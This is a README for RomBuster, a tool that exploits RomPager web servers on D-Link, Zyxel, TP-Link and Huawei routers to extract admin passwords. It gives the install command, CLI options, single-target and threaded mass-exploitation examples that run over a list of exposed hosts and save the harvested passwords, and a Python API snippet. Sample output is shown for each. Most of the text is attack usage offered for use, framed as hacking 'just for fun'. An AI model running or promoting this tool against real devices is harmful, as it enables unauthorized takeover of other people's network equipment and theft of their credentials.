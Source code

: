 # RomBuster

RomBuster is a RomPager exploitation tool that allows to disclosure network device admin password.

## Features

* Exploits vulnerabilities in most popular devices with RomPager installation such as `D-Link`, `Zyxel`, `TP-Link` and `Huawei`.
* Optimized to exploit multiple devices at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/RomBuster
```

## Basic usage

To use RomBuster just type `rombuster` in your terminal.

```
usage: rombuster [-h] [--threads] [--output OUTPUT] [--input INPUT]
                 [--address ADDRESS]

RomBuster is a RomPager exploitation tool that allows to disclosure network
device admin password.

optional arguments:
  -h, --help         show this help message and exit
  --threads          Use threads for fastest work.
  --output OUTPUT    Output result to file.
  --input INPUT      Input file of addresses.
  --address ADDRESS  Single address.
```

### Examples

Let's hack my device with RomPager installation just for fun.

```shell
rombuster --address 192.168.2.1
```

**output:**

```shell
[*] (192.168.2.1) - connecting to device...
[*] (192.168.2.1) - accessing device rom...
[*] (192.168.2.1) - extracting admin password...
[i] (192.168.2.1) - password: SuperHardPassword999
```

Let's try to use opened database of hosts with `--threads` for fast exploitation.

```shell
rombuster --threads --input devices.txt --output passwords.txt
```

It will exploit all devices in `devices.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

## RomBuster API

RomBuster also has their own Python API that can be invoked by importing RomBuster to your code:

```python
from rombuster import RomBuster
```

### Basic functions

There are all RomBuster basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by network address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from rombuster import RomBuster

rombuster = RomBuster()

device = rombuster.connect('192.168.2.1')
print(rombuster.exploit(device))
```

**output:**

```shell
'SuperHardPassword999'
```
